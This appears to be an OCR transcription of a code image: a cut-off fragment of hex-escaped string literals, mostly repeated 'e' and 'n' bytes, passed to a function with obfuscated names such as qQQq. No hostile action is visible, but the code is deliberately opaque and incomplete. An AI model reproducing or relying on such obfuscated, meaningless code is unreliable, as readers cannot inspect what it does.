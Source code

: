 \verb|\\x65\x65\x6b\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\|\newline
\verb|\\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\|\newline
\verb|\\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\|\newline
\verb|\\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x66\x65\x65\x65\|\newline
\verb|\\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\|\newline
\verb|\\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\x65\|\newline
\verb|\\x65"|\newline
\verb|),|\newline
\verb|qQQq(15,qQQqqQQq|\newline
\verb|"\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x18\x6e\x6e\x57\x6e\x6e\|\newline
\verb|\\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\|\newline
\verb|\\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x73\x73\x71\x6e\x6e\x6e\x6e\x6f\|\newline
\verb|\\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\|\newline
\verb|\\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\|\newline
\verb|\\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\|\newline
\verb|\\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\|\newline
\verb|\\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\x6e\|\newline
\verb|\\x6e"|\newline
\verb|),|\newline
